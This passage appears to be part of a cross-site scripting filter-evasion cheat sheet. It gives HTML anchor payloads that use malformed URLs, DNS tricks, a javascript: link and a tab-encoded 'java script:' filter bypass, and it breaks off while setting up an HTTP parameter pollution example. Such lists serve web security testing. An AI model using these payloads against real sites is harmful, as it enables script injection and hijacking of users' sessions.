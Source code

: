 Google “feeling lucky” part 2.
This uses a very tiny trick that appears to work Firefox only, because of it’s implementation of the “feeling lucky” function. Unlike the next one this does not work in Opera because Opera believes that this is the old HTTP Basic Auth phishing attack, which it is not. It’s simply a malformed URL. If you click okay on the dialogue it will work, but as a result of the erroneous dialogue box I am saying that this is not supported in Opera, and it is no longer supported in Firefox as of 2.0:

```js
<A HREF="http://ha.ckers.org@google">XSS</A>
```

Google “feeling lucky” part 3.
This uses a malformed URL that appears to work in Firefox and Opera only, because if their implementation of the “feeling lucky” function. Like all of the above it requires that you are #1 in Google for the keyword in question (in this case “google”):

```js
<A HREF="http://google:ha.ckers.org">XSS</A>
```

Removing CNAMEs
When combined with the above URL, removing www. will save an additional 4 bytes for a total byte savings of 9 for servers that have this set up properly):

```js
<A HREF="http://google.com/">XSS</A>
```

Extra dot for absolute DNS:

```js
<A HREF="http://www.google.com./">XSS</A>
```

JavaScript Link Location:

```js
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

Content Replace as Attack Vector
Assuming http://www.google.com/ is programmatically replaced with nothing). I actually used a similar attack vector against a several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector (IE: java&\#x09;script: was converted into java	script:, which renders in IE, Netscape 8.1+ in secure site mode and Opera):

```js
<A HREF="http://www.google.com/ogle.com/">XSS</A>
```

Assisting XSS with HTTP Parameter Pollution
Assume a content sharing flow on a web site is implemented as below. There is a “Content” page which includes some content provided by users and this page also includes a link to “Share” page which enables a user choose their favorite social sharing platform to share it on. Developers HTML encoded the “title” parameter in the “Content” page to prevent against XSS but for some reasons they didn’t URL encoded this parameter to prevent from HTTP Parameter Pollution. Finally they decide that since content_type’s value is a constant and will always be integer, they didn’t encode or validate the content_type in the “Share” page.
